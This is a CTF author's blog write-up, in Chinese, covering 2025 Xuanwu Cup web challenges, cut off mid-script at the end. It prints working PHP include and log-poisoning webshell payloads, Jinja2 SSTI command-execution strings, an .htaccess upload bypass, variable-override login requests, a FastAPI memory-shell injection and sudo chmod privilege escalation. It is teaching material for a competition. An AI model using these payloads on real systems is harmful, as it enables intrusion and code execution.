---
title: "2025玄武杯出题记录"
date: 2025-11-02T00:39:07+08:00
summary: "这次也是轮到我出题了"
url: "/posts/2025玄武杯出题记录/"
categories:
  - "出题记"
tags:
  - "2025玄武杯"
draft: false
---

## 前言

今年也是轮到我出题了，其实还蛮紧张的，不过确实在出题的时候也遇到了很多问题，甚至出现了犯蠢导致存在非预期的情况，在此跟选手道个歉，虽然是第一次出题，但是还是有在认真对待，望海涵

## ez_include

这就是我犯蠢的地方！！！

打开题目就是源码

```php
<?php
stream_wrapper_unregister('php');

if(!isset($_GET['no_hl'])) highlight_file(__FILE__);

$mkdir = function($dir) {
    system('mkdir -- '.escapeshellarg($dir));
};
$randFolder = bin2hex(random_bytes(16));
$mkdir('users/'.$randFolder);
chdir('users/'.$randFolder);

$userFolder = (isset($_SERVER['HTTP_X_FORWARDED_FOR']) ? $_SERVER['HTTP_X_FORWARDED_FOR'] : $_SERVER['REMOTE_ADDR']);
$userFolder = basename(str_replace(['.','-'],['',''],$userFolder));

$mkdir($userFolder);
chdir($userFolder);
file_put_contents('profile',print_r($_SERVER,true));
chdir('..');
$_GET['page']=str_replace('.','',$_GET['page']);
if(!stripos(file_get_contents($_GET['page']),'<?') && !stripos(file_get_contents($_GET['page']),'php')) {
    include($_GET['page']);
}

chdir(__DIR__);
system('rm -rf users/'.$randFolder);

?>
Warning: chdir(): No such file or directory (errno 2) in /var/www/html/index.php on line 11

Warning: file_get_contents(): Filename cannot be empty in /var/www/html/index.php on line 21

Warning: file_get_contents(): Filename cannot be empty in /var/www/html/index.php on line 21

Warning: include(): Filename cannot be empty in /var/www/html/index.php on line 22

Warning: include(): Failed opening '' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 22
```

这里的话因为存在非预期，所以预期的解法以及代码分析我会放在revenge里面讲

从include外层的if语句就可以分析到，并没有什么特别的限制，聪明的人直接尝试/flag就出了，因为恰好我在出题的时候习惯性把flag放在根目录且没有改名，所以导致了一个很严重的非预期

## ez_include_revenge

这道题是大家很关心的一道题，比赛期间也是很多很多师傅来问过我思路了，具体源码如下

```php
<?php
stream_wrapper_unregister('php');

if(!isset($_GET['no_hl'])) highlight_file(__FILE__);

$mkdir = function($dir) {
    system('mkdir -- '.escapeshellarg($dir));
};
$randFolder = bin2hex(random_bytes(16));
$mkdir('users/'.$randFolder);
chdir('users/'.$randFolder);

$userFolder = (isset($_SERVER['HTTP_X_FORWARDED_FOR']) ? $_SERVER['HTTP_X_FORWARDED_FOR'] : $_SERVER['REMOTE_ADDR']);
$userFolder = basename(str_replace(['.','-'],['',''],$userFolder));

$mkdir($userFolder);
chdir($userFolder);
file_put_contents('profile',print_r($_SERVER,true));
chdir('..');
$_GET['page']=str_replace('.','',$_GET['page']);
if(!stripos(file_get_contents($_GET['page']),'<?') && !stripos(file_get_contents($_GET['page']),'php')) {
    if (preg_match('/f.*l.*a.*g/i', $_GET['page'])) {
        echo "这次不会让你得逞了！";
    }else{
        include($_GET['page']);
    }
}else{
    echo "再想想?";
}

chdir(__DIR__);
system('rm -rf users/'.$randFolder);

?>
Warning: chdir(): No such file or directory (errno 2) in /var/www/html/index.php on line 11

Warning: file_get_contents(): Filename cannot be empty in /var/www/html/index.php on line 21

Warning: file_get_contents(): Filename cannot be empty in /var/www/html/index.php on line 21

Warning: include(): Filename cannot be empty in /var/www/html/index.php on line 25

Warning: include(): Failed opening '' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 25
```

从代码来看我们可以知道，定义了一个`$mkdir`函数会进行创建目录，首先是在当前工作目录创建一个`users/[random_bytes(16)]`目录并移动工作目录到该目录，随后会尝试获取到`HTTP_X_FORWARDED_FOR`，也就是请求头中的XFF头作为目录名，如果为空或没有就会获取`REMOTE_ADDR`，创建目录后继续进入该目录并将`$_SERVER`全局变量写入profile文件，最后返回上级目录

从上面的信息我们可以得出

```php
当前最终工作目录是在/var/www/html/users/[random_bytes(16)]
而profile文件在/var/www/html/users/[random_bytes(16)]/X_FORWARDED_FOR(REMOTE_ADDR)目录下
```

那我们也知道全局变量中是包含UA头的，那么可以尝试在UA头写马进profile，但是如何进行包含呢？

这里的话有file_get_contents函数对文件内容进行检测，随后才会进行include包含

``` php
if(!stripos(file_get_contents($_GET['page']),'<?') && !stripos(file_get_contents($_GET['page']),'php')) {
    if (preg_match('/f.*l.*a.*g/i', $_GET['page'])) {
        echo "这次不会让你得逞了！";
    }else{
        include($_GET['page']);
    }
}else{
    echo "再想想?";
}
```

ok，接下来进入正题

### include和file_get_content处理协议的区别

在讲这个内容之前，我们需要了解一下file_get_content的源码实现

#### file_get_content的源码实现

在 PHP 源码里，`file_get_contents` 定义在 **ext/standard/file.c**，直接去github下载到本地看吧

https://github.com/php/php-src/blob/PHP-7.3.6/ext/standard/file.c

```c
PHP_FUNCTION(file_get_contents)
{
	char *filename;
	size_t filename_len;
	zend_bool use_include_path = 0;
	php_stream *stream;
	zend_long offset = 0;
	zend_long maxlen = (ssize_t) PHP_STREAM_COPY_ALL;
	zval *zcontext = NULL;
	php_stream_context *context = NULL;
	zend_string *contents;

	/* Parse arguments */
	ZEND_PARSE_PARAMETERS_START(1, 5)
		Z_PARAM_PATH(filename, filename_len)
		Z_PARAM_OPTIONAL
		Z_PARAM_BOOL(use_include_path)
		Z_PARAM_RESOURCE_EX(zcontext, 1, 0)
		Z_PARAM_LONG(offset)
		Z_PARAM_LONG(maxlen)
	ZEND_PARSE_PARAMETERS_END();

	if (ZEND_NUM_ARGS() == 5 && maxlen < 0) {
		php_error_docref(NULL, E_WARNING, "length must be greater than or equal to zero");
		RETURN_FALSE;
	}

	context = php_stream_context_from_zval(zcontext, 0);

	stream = php_stream_open_wrapper_ex(filename, "rb",
				(use_include_path ? USE_PATH : 0) | REPORT_ERRORS,
				NULL, context);
	if (!stream) {
		RETURN_FALSE;
	}

	if (offset != 0 && php_stream_seek(stream, offset, ((offset > 0) ? SEEK_SET : SEEK_END)) < 0) {
		php_error_docref(NULL, E_WARNING, "Failed to seek to position " ZEND_LONG_FMT " in the stream", offset);
		php_stream_close(stream);
		RETURN_FALSE;
	}

	if (maxlen > INT_MAX) {
		php_error_docref(NULL, E_WARNING, "maxlen truncated from " ZEND_LONG_FMT " to %d bytes", maxlen, INT_MAX);
		maxlen = INT_MAX;
	}
	if ((contents = php_stream_copy_to_mem(stream, maxlen, 0)) != NULL) {
		RETVAL_STR(contents);
	} else {
		RETVAL_EMPTY_STRING();
	}

	php_stream_close(stream);
}
```

先看看局部变量

```c
char *filename;		//传入的文件路径或url
size_t filename_len;	//文件名长度
zend_bool use_include_path = 0;		
php_stream *stream;		//打开的文件或协议流
zend_long offset = 0;
zend_long maxlen = (ssize_t) PHP_STREAM_COPY_ALL;
zval *zcontext = NULL;
php_stream_context *context = NULL;
zend_string *contents;
```

然后我们看对协议流的处理

```c
stream = php_stream_open_wrapper_ex(filename, "rb",
            (use_include_path ? USE_PATH : 0) | REPORT_ERRORS,
            NULL, context);
```

我们主要看php_stream_open_wrapper_ex 函数，因为这个是处理流包装器的主要逻辑

在main\streams\streams.c中，我们先来看看这个函数中的参数

```c
php_stream *stream = NULL;
php_stream_wrapper *wrapper = NULL;
const char *path_to_open;
int persistent = options & STREAM_OPEN_PERSISTENT;
zend_string *resolved_path = NULL;
char *copy_of_path = NULL;
```

其中`php_stream_wrapper *wrapper`是所选的协议封装对象。

```c
	if (!path || !*path) {
		php_error_docref(NULL, E_WARNING, "Filename cannot be empty");
		return NULL;
	}
```

这里是检查路径合法性，否则抛出报错

```c
wrapper = php_stream_locate_url_wrapper(path, &path_to_open, options);
```

这是核心逻辑，分析路径，找到合适的**封装协议对象**，我们跟进php_stream_locate_url_wrapper函数

在同一文件中进行分析找到关键代码


可以看到这里会对`data:`进行特例的判断，这是因为在RFC 2397定义 **Data URI Scheme** 的技术规范文档中data的规范应该是

```php
data:[<mediatype>][;base64],<data>
```

此时也能匹配到data协议，但是其实`data://`也是符合规范的

写个demo测试一下

```php
<?php
// RFC 2397
$fp1 = fopen('data:,test', 'r');
$meta1 = stream_get_meta_data($fp1);
echo $meta1['wrapper_type']; // RFC2397

// PHP wrapper
$fp2 = fopen('data://text/plain,test', 'r');
$meta2 = stream_get_meta_data($fp2);
echo $meta2['wrapper_type']; // RFC2397
```

然后我们来看看include的源码

#### include的源码实现

在Zend\zend_execute.c中的zend_include_or_eval，这是 PHP Zend 引擎中处理 **include/require/eval** 的核心函数。

```c
if (SUCCESS == zend_stream_open(ZSTR_VAL(resolved_path), &file_handle)) {

					if (!file_handle.opened_path) {
						file_handle.opened_path = zend_string_copy(resolved_path);
					}

					if (zend_hash_add_empty_element(&EG(included_files), file_handle.opened_path)) {
						zend_op_array *op_array = zend_compile_file(&file_handle, (type==ZEND_INCLUDE_ONCE?ZEND_INCLUDE:ZEND_REQUIRE));
						zend_destroy_file_handle(&file_handle);
						zend_string_release_ex(resolved_path, 0);
						if (Z_TYPE(tmp_inc_filename) != IS_UNDEF) {
							zval_ptr_dtor_str(&tmp_inc_filename);
						}
						return op_array;
					} else {
						zend_file_handle_dtor(&file_handle);
already_compiled:
						new_op_array = ZEND_FAKE_OP_ARRAY;
					}
				}
```

zend_stream_open函数会尝试打开文件，这里是我们的核心，跟进一下

在Zend\zend_stream.c中zend_stream_open

```c
ZEND_API int zend_stream_open(const char *filename, zend_file_handle *handle) /* {{{ */
{
	if (zend_stream_open_function) {
        //如果设置了自定义的打开函数
		return zend_stream_open_function(filename, handle);
	}
	handle->type = ZEND_HANDLE_FP;
	handle->opened_path = NULL;
	handle->handle.fp = zend_fopen(filename, &handle->opened_path);
	handle->filename = filename;
	handle->free_filename = 0;
	memset(&handle->handle.stream.mmap, 0, sizeof(zend_mmap));

	return (handle->handle.fp) ? SUCCESS : FAILURE;
}
```

我们跟进zend_stream_open_function的值

在PHP 中，`zend_stream_open_function` 通常在 **SAPI 初始化阶段**被设置


然后同文件下可以找到

```c
zend_stream_open_function = utility_functions->stream_open_function;
```

随后跟进一下utility_functions结构体



然后我们查找哪里利用结构体初始化了这个函数stream_open_function


很明显，最后zend_stream_open_function的值就是`php_stream_open_for_zend`，所以会调用php_stream_open_for_zend函数，跟进php_stream_open_for_zend函数来到php_stream_open_for_zend_ex函数

里面有一个处理文件流的操作

```c
php_stream *stream = php_stream_open_wrapper((char *)filename, "rb", mode, &opened_path);
```

跟进php_stream_open_wrapper来到`_php_stream_open_wrapper_ex函数`中的zend_resolve_path相关代码段

```c
	if (options & USE_PATH) {
		resolved_path = zend_resolve_path(path, strlen(path));
		if (resolved_path) {
			path = ZSTR_VAL(resolved_path);
			/* we've found this file, don't re-check include_path or run realpath */
			options |= STREAM_ASSUME_REALPATH;
			options &= ~USE_PATH;
		}
		if (EG(exception)) {
			return NULL;
		}
	}
```

> [!CAUTION]
>
> 这时候肯定会有人疑问，为什么file_get_content和include都会来到`_php_stream_open_wrapper_ex`函数，但是为什么进入的处理逻辑不一样呢？
>
> 让我们把视角回到php_stream_open_for_zend_ex函数中
>
> 
>
> 可以看到多了一个opened_path参数，并且默认是这三个值，反观file_get_content
>
> 
>
> 可以看到如果这里没有值的话就默认是REPORT_ERRORS，否则就是`USE_PATH | REPORT_ERRORS`
>
> 所以这也是为什么include最终会进入`if (options & USE_PATH) {`的情况

继续跟进`zend_resolve_path`，一路来到php_resolve_path_for_zend并进入php_resolve_path


这里就是重点了

```c
for (p = filename; isalnum((int)*p) || *p == '+' || *p == '-' || *p == '.'; p++);
//遍历文件名的字符，识别 URL 协议头，直到遇到不是[a-zA-Z0-9+-.]的字符
	if ((*p == ':') && (p - filename > 1) && (p[1] == '/') && (p[2] == '/')) {
        //检测是否是://协议的格式
		wrapper = php_stream_locate_url_wrapper(filename, &actual_path, STREAM_OPEN_FOR_INCLUDE);
		if (wrapper == &php_plain_files_wrapper) {
			if (tsrm_realpath(actual_path, resolved_path)) {
				return zend_string_init(resolved_path, strlen(resolved_path), 0);
			}
		}
		return NULL;
	}
```

很容易就能看到，这里要求协议必须是`[协议头]://`的格式，这也是跟`file_get_contents`不同的地方

因此我们可以得出一个结论

**file_get_contents函数针对`data:`协议仍然可以进行解析为data封装协议，而include在遇到`data:`的格式则会由于格式问题返回NULL**

因此可以构造poc

```http
GET /?page=data:,a/profile HTTP/1.1
Host: node1.anna.nssctf.cn:28481
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: <?php phpinfo();?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
X-Forwarded-For: data:,a
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_648a44a949074de73151ffaa0a832aec=1761981622,1761994400,1762000821,1762007839; Hm_lpvt_648a44a949074de73151ffaa0a832aec=1762007839; HMACCOUNT=85A7446944A123A0
Connection: keep-alive


```



由于对协议处理方式不同，file_get_content函数在遇到`data:,a/profile`的时候会尝试获取a/profile的文件内容，但是内容为空，所以绕过验证，而include函数在遇到`data:,a/profile`的时候无法正常的解析data协议，从而直接查找`data:,a/profile`文件并解析，所以我们在XFF头中设置文件目录为`data:,a`就可以正常写入了

### 意外之喜

在revenge上新后不久，一个师傅来找到我，跟我说我的代码有问题



所以这么导致的结果是什么呢？没错，一个新的非预期出现了，但是这个非预期也让我和这个师傅一起探讨到一个知识点，接下来细品一下

本地测试一下



代码中的情况在Linux中是无法递归创建目录的，而我当时刚好测试的环境是Windows，运行后是可以直接创建一个users的，这里就导致了我们的users目录并不存在，心细的孩子能注意到



没错，第一部分的chdir是失效了的，那么此时的工作目录就还是在`/var/www/html`，我们继续往下看

然后就是获取XFF头的部分，并会在`XFF(REMOTE_ADDR)`目录下写入profile，最后返回上级目录

所以此时的工作目录和profile的路径就变成了

```php
工作目录：/var/www/html
profile的路径：/var/www/html/XFF(REMOTE_ADDR)/
```

然后那位师傅给出一个很骚的姿势，那就是把XFF置空！

置空之后的效果就是

```php
工作目录：/var/www
profile的路径：/var/www/html/
```

本地起docker看看效果验证一下前面的猜想

启动容器未访问的时候，此时并没有users以及profile



访问2333端口之后，出现了一个`[REMOTE_ADDR]/profile`



我们试着把xff置空，也就是传空值



profile确实出现在了根目录，并且我们的工作目录是在www的

那我们接下来该怎么做呢？

#### include和file_get_contents匹配文件的区别

关注到include函数的官方介绍



也就是说，当我们传入一个文件的时候，include会分别在脚本目录下以及当前工作目录下进行查找

而file_get_contents函数则只会在当前工作目录去查找

测试一下

```php
<?php
//1.txt在test目录下
echo "1.txt在test目录下\n";
echo "脚本目录是".__DIR__."\n";
chdir('..');
echo "当前工作目录是".getcwd()."\n";
include("1.txt");
file_get_contents("1.txt");
```

最终的输出结果是

```php
1.txt在test目录下
脚本目录是C:\Users\23232\Desktop\附件\111\test
当前工作目录是C:\Users\23232\Desktop\附件\111
111
PHP Warning:  file_get_contents(1.txt): failed to open stream: No such file or directory in 
...
```

所以借助这两个的区别可以打出这个poc

```http
POST /?no_hl=1&page=profile HTTP/1.1
Host: node10.anna.nssctf.cn:29954
Content-Type: application/x-www-form-urlencoded
User-Agent: <?php phpinfo();?>
Content-Length: 16
X-FORWARDED-FOR: 


```



总结：这道题是学习东西最多的地方，如果师傅们有不同的见解也欢迎一起探讨交流

## 锦家有什么

### #SSTI

说实话有点猜的成分，但本意是希望能让新生拓展一下独立的思维，其实猜的也不是很复杂

打开题目


锦家是什么？根据提示`好像不是中文`得出拼音`jinja`，搜一下就能搜到jinja是一个python的模板引擎，那么模板引擎最大的漏洞就是ssti了

点击开始挑战后发现并没有跳转路径


在源码中就有着相关的路由



听到有新生反馈这个`try_a_try`路由让他猜了好久，以为是猜路由，额，确实是我的疏忽，没考虑到大家对url资源路径的了解不多

访问/try_a_try



通过guest猜测是name或者id参数，并且有回显，尝试传入`?name={{8*8}}`



成功回显64那么就存在ssti，并且这道题是没过滤的，所以直接打就行了

```python
{{lipsum.__globals__['os'].popen('whoami').read()}}
{{lipsum.__globals__['os'].popen('cat /flag').read()}}
```



嗯本来想对最后的页面写的美观一点的，但奈何我的开发实在是太烂了，只能用最朴素的方式去写

## 眼见不一定为实

### #nginx和flask处理特殊字符漏洞

有源码，先看app.py

```python
# pylint: disable=missing-module-docstring,missing-function-docstring

import os
from flask import Flask, render_template

app = Flask(__name__, template_folder="templates")


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/secret")
def secret():
    return os.getenv("FLAG", "NSSCTF{default}")


if __name__ == "__main__":
    app.run("0.0.0.0", 8080, debug=False)

```

只要访问/sercret就能拿到flag

然后看看nginx.conf配置文件

```conf
server {
    listen       80;
    server_name  localhost;

    location ~* ^/secret/?$ {
        deny all;
        return 403;
    }

    location ~* ^/secret/ {
        deny all;
        return 403;
    }

    location / {
        proxy_pass http://127.0.0.1:8080;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}

```

写了两个路由匹配规则，且是不区分大小写的(`~*`)，特意去翻了一下nginx路由匹配规则

```nginx
＝   精确匹配               （优先级最高）
^~   精确前缀匹配            （优先级仅次于=）
~    区分大小写的正则匹配     （优先级次于^~）
~*   不区分大小写的正则匹配    （优先级次于^~）
/uri 普通前缀匹配            （优先级次于正则）
/    通用匹配               （优先级最低）
```

这里的话只要`/secret`和`/secret/`的路由都会拒绝访问，这时候就需要绕过限制路径了

其实这道题在lilctf的热身赛里面就考过，不过也是觉得这道题比较好并且有印象，在争得web负责人的同意后就用了这道题

https://lil-house.feishu.cn/wiki/Jj5KwlnB3ic0f7kKdeGcczEZnMf



本质上就是flask在遇到特殊字符路径的时候会对特殊字符进行处理，而此时恰好nginx又不会进行处理，那么就可以利用这个特点绕过nginx对路径的限制

先知找到一篇文章：https://xz.aliyun.com/news/14403

## 总结

一次极具挑战的开始，第一次出题，但真的学到了很多东西，期间也跟不同的师傅交流过，一直也很紧张担心题目质量太低，也不知道赛后的反馈如何~~~

## 其他几个web的题

## normal_php

### #php特性+文件包含

yxing师傅出的题

```php
<?php 
highlight_file(__FILE__);
error_reporting(0);
include 'next.php';

if(isset($_GET['a']) && isset($_POST['c'])){
    $a=$_GET['a'];
    $c=$_POST['c'];
    parse_str($a,$b);
    if($b['cdusec']!==$c && md5($b['cdusec'])==md5($c)){
        $num1=$b['num'][0];
        $num2=$b['num'][1];

        if(in_array(10520,$b['num'])){
            echo "记住这个数";
            echo "<br>";
        }else{
            die("这都记不住?");
        }

        if($num2==114514){
            die("我不想要这个数字!");
        }

        if(preg_match("/[a-z]/i", $num2)){
            die("还想十六进制绕过?");
        }

        if(strpos($num2, "0")){
            die("还想八进制绕过?");
        }

        if(intval($num2,0)==114514){
            echo "好了你可以去下一关了".$next;
        }else{
            echo "我现在又想要了,嘻嘻";
        }

    }else{
        echo "不er,md5你不会";
    }

}else{
    echo "你看看传什么呢";
} 你看看传什么呢

```

有个动态变量先看看parse_str函数的定义



本地测试一下官方用例

```php
<?php
$str = "first=value&arr[]=foo+bar&arr[]=baz";
// 推荐用法
parse_str($str, $output);
echo $output['first'], PHP_EOL;  // value
echo $output['arr'][0], PHP_EOL; // foo bar
echo $output['arr'][1], PHP_EOL; // baz
?>
```

明白该怎么写了

然后我们挨个看一下

```php
if($b['cdusec']!==$c && md5($b['cdusec'])==md5($c))
```

md5弱比较，可以直接数组绕过

```http
GET:a=cdusec[]=1
POST:c[]=2
```

然后第二层

```php
$num1=$b['num'][0];
$num2=$b['num'][1];
if(in_array(10520,$b['num'])){
    echo "记住这个数";
    echo "<br>";
}else{
    die("这都记不住?");
}
```

需要传一个num，里面是10520，记得在传参的时候如果值中有`&`需要URL编码


第三层

```php
if($num2==114514){
            die("我不想要这个数字!");
        }

        if(preg_match("/[a-z]/i", $num2)){
            die("还想十六进制绕过?");
        }

        if(strpos($num2, "0")){
            die("还想八进制绕过?");
        }

        if(intval($num2,0)==114514){
            echo "好了你可以去下一关了".$next;
        }else{
            echo "我现在又想要了,嘻嘻";
        }
```

绕过intval，用小数就行

所以第一关的poc

```http
GET:?a=cdusec[]=1&num[]=10520&num[]=114514.1
POST:c[]=2
```

成功拿到/leeevvvel2222222.php

```php
<?php

#flag在/flag中，试着读读?

error_reporting(0);

if(isset($_GET['filename'])){
    $file=$_GET['filename'];
    if(!preg_match("/flag|php|filter|base64|text|read|resource|\=|\'|\"|\,/",$file)){
        include($file);
    }
}else{
    highlight_file(__FILE__);
}
```

很多协议都禁用了，尝试日志文件包含吧

一开始看了apache但是没打通，后面发现apache2之后的日志文件路径改成了/var/log/apache2/access.log

```php
/leeevvvel2222222.php?filename=/var/log/apache2/access.log
```



包含出来了那就在UA头写马子



这里也能用失败日志，如果访问不存在的php文件就会计入error.log日志



我们访问一个1.php



所以我们在路径处写入木马

```php
/<?php eval($_POST[1]);?>.php
记得需要url编码
```



## ez_file

### #变量覆盖+文件上传

依旧yxing师傅的题

扫目录拿到www.zip

先看login.php

```php
<?php
#悄悄的，校内赛道第一个找到学长的秘密的私信学长秘密内容给奶茶喝

session_start();
error_reporting(0);
#header('Content-Type: application/json');


$params = [];
$role = "guest";
$admin_role = "admin";
if (stripos($_SERVER["CONTENT_TYPE"] , "application/json") !== false) {
    $raw = file_get_contents("php://input");
    $data = json_decode($raw, true);
    if (json_last_error() === JSON_ERROR_NONE) {
        $params = $data;
        foreach ($params as $key => $value) {
            $$key = $value;
        }
    } else {
        echo json_encode(["error" => "Invalid JSON"]);
        exit;
    }
}
// 如果是普通表单请求
elseif ($_SERVER["REQUEST_METHOD"] === "POST") {
    $username = $_POST['username'] ;
    $password = $_POST['password'] ;
//    $params = ['username' => $username, 'password' => $password];
} else {
    echo json_encode(["error" => "Unsupported request method"]);
    exit;
}

$client_ip = $_SERVER['REMOTE_ADDR'] ;


if ($username === "admin" && $password === "456789" && $client_ip === "127.0.0.1") {
    $_SESSION['role'] = $admin_role;
    echo json_encode([
        "status" => "success",
        "message" => "Login successful (local admin)",
        "ip" => $client_ip
    ]);
    header("Location: index.php");
    exit;
}

if ($username === "guest" && $password === "123456") {
    $_SESSION['role'] = $role;
    #echo $role;
    #echo json_encode(["status" => "success", "message" => "Login successful", "user" => $username]);
    header("Location: index.php");
    exit;
} else {
    http_response_code(401);
    echo json_encode(["status" => "failed", "message" => "Invalid username or password"]);
}
?>
```

有guest和admin，`$$key = $value`存在明显的变量覆盖，通过检测CONTENT_TYPE的值来判断是普通请求还是变量覆盖

这里的话登录有两个方法，一个是admin，一个是guest

index.php中有一段身份验证的代码

```php
<?php
    session_start();
    error_reporting(0);


    $secret = rtrim(file_get_contents("/secret"), "\r\n");

    if(isset($_GET['secret'])){
        if($_GET['secret'] !== $secret) {
        
        header("Location: login.html");
        exit;
        }
    }
    else if (!isset($_SESSION['role']) || $_SESSION['role'] !== 'admin') {
        header("Location: login.html");
        exit;
}
?>
```

我们需要让session的role为admin才能登录进去

所以这里有两条路可以走

1. 通过admin登录，可以设置$client_ip的值为127.0.0.1，这样就能让role为admin_role
2. 通过guest登录，可以设置$role为admin，这样同样也能让role为admin_role

guest登录的请求包

```http
POST /login.php HTTP/1.1
Host: node10.anna.nssctf.cn:22598
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_648a44a949074de73151ffaa0a832aec=1762060097,1762082656,1762089964,1762135089; HMACCOUNT=85A7446944A123A0; Hm_lpvt_648a44a949074de73151ffaa0a832aec=1762135903; PHPSESSID=c06a175391e8d4d4b383c59d09d19265
If-None-Match: "5f4-6424b53318a80-gzip"
If-Modified-Since: Wed, 29 Oct 2025 12:32:26 GMT
Connection: keep-alive
Content-Type: application/json
Content-Length: 94

{
"_SERVER": {
"REMOTE_ADDR": "127.0.0.1"
},
"username": "admin",
"password": "456789"
}
```



然后访问index.php就行了

admin登录的请求包

```http
POST /login.php HTTP/1.1
Host: node10.anna.nssctf.cn:22598
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_648a44a949074de73151ffaa0a832aec=1762060097,1762082656,1762089964,1762135089; HMACCOUNT=85A7446944A123A0; Hm_lpvt_648a44a949074de73151ffaa0a832aec=1762135903; PHPSESSID=c06a175391e8d4d4b383c59d09d19265
If-None-Match: "5f4-6424b53318a80-gzip"
If-Modified-Since: Wed, 29 Oct 2025 12:32:26 GMT
Connection: keep-alive
Content-Type: application/json
Content-Length: 65

{
"role":"admin",
"username": "guest",
"password": "123456"
}
```

会302跳转到index.php

然后我们来看index.php

```php
    <?php
    if ($_SERVER["REQUEST_METHOD"] == "POST") {
        $fileType = strtolower(pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION));

        $data = file_get_contents($_FILES['file']["tmp_name"]);

        $type = mime_content_type($_FILES['file']["tmp_name"]);


        if ($_FILES["file"]["size"] > 1000) {
            echo "file too large";
            return;
        }

        #文件后缀白名单检测，我就不信你还能上传php文件，嘻嘻嘻
        if(!in_array($fileType, ["jpg","png","gif","jpeg"])){
            echo "file type not allow";
            return;
        }


        if (move_uploaded_file($_FILES['file']["tmp_name"], "./uploads/" . md5($_FILES["file"]["name"]).".jpg")) {
            echo "upload success";
            echo "<br>";
            echo "upload to ./uploads/".md5($_FILES["file"]["name"]).".jpg";
        } else {
            echo "upload failed";
        }
    }
    ?>

<?php 
    $black_list=["php", "phtml", "php3", "php4", "php5", "pht"];
    if(isset($_GET['old_name']) && isset($_GET['new_name'])){
        $name = strtolower(pathinfo($_GET['new_name'], PATHINFO_EXTENSION));
        if(in_array($name,$black_list)){
            echo "我不想看到php文件";
            return;
        }

        $data = file_get_contents($_GET['old_name']);
        if(empty($data)){
            echo "怎么没有东西，这我改什么";
            return;
        }
        $file = tmpfile();
        fwrite($file, $data);
        fflush($file);
        fclose($file);


        file_put_contents("./uploads/".$_GET['new_name'],$data);
        echo "文件重命名成功";
    }
    ?>
```

有文件后缀名白名单检测，并且上传文件后会更名为md5加密的jpg文件

后面是一个重命名的操作，不过设置了php黑名单

思路就是通过上传一个.htaccess内容的jpg文件，并重命名为.htaccess后缀触发解析，然后上传一个jpg文件利用.htaccess文件解析漏洞解析jpg里面的php代码

.htaccess文件的内容

```php
AddType application/x-httpd-php .jpg 
```

更名为jpg后缀并上传返回文件路径/uploads/f3ccdd27d2000e3f9255a7e3e2c48800.jpg

进行重命名

```http
/?old_name=uploads/f3ccdd27d2000e3f9255a7e3e2c48800.jpg&new_name=.htaccess
```



随后上传一个一句话木马命名为jpg后缀就行了



## ez_fastapi

### #无回显SSTI

baozongwi师傅出的题

先看app.py文件

```python
from fastapi import FastAPI, Request
from fastapi.responses import HTMLResponse, JSONResponse
from jinja2 import Environment
import uvicorn

app = FastAPI()
Jinja2 = Environment()

Jinja2 = Environment(
    variable_start_string='{',
    variable_end_string='}'
)


@app.exception_handler(404)
async def handler_404(request, exc):
    print('not found!')
    return JSONResponse(
        status_code=404,
        content={"message": "Not found"}
    )

@app.middleware('http')
async def say_hello(request: Request, call_next):
    response = await call_next(request)
    response.headers['say1'] = 'hello!'
    return response

@app.middleware('http')
async def say_hi(request: Request, call_next):
    response = await call_next(request)
    response.headers['say2'] = 'hi!'
    return response

@app.get("/")
async def index():
    return {"message": "Hello World"}

@app.get("/shellMe")
async def shellMe(username="Guest"):
    Jinja2.from_string("Welcome " + username).render()
    return HTMLResponse(content="<h1>Welcome!</h1><p>Request processed.</p>")


def method_disabled(*args, **kwargs):
    raise NotImplementedError("此路不通！该方法已被管理员禁用。")

app.add_api_route = method_disabled
app.add_middleware = method_disabled

if __name__ == "__main__":
    
    uvicorn.run(app, host='0.0.0.0', port=8000)

```

很明显的SSTI漏洞，换了渲染符，所以可以使用 {} ，但是现在有问题，无回显，并且不出网，需要打内

存马，然而禁用了

```python
app.add_api_route = method_disabled
app.add_middleware = method_disabled
```

也就是说动态添加路由和中间件注册这两种方法都不能使用，但是可以使用异常处理器

注意到start.sh文件

```sh
#!/bin/bash


exec uvicorn app:app --host 0.0.0.0 --port 8000
```

也就是说应用不是由`__main__`启动的，所以如果我们使用`__main__`的话是获取不到app对象的，所以需要修改成app对象才能获取

```python
# 先添加恶意的异常处理器
{lipsum.__globals__['__builtins__']['eval']
("sys.modules['app'].app.add_exception_handler(404,lambda request,
exc:sys.modules['app'].app.__init__.__globals__['JSONResponse'](content=
{'message':__import__('os').popen(request.query_params.get('cmd') or
'whoami').read()}))")}
 
## 再重新构建 middleware_stack
{lipsum.__globals__['__builtins__']['exec']
("app=sys.modules['app'].app;app.middleware_stack=app.build_middleware_stack()")}
```

成功注册内存马后，随便访问一个错误路由触发404



尝试读取flag，但是权限不够需要提权

```bash
sudo -l		//找到一个/usr/bin/chmod
sudo chmod 6777 /flag	//赋予flag权限
tac /flag
```

最终的poc

```python
#author:baozongwi
import time
import requests
import re

url = "http://127.0.0.1:8000/"
def get_shell(url, payload):
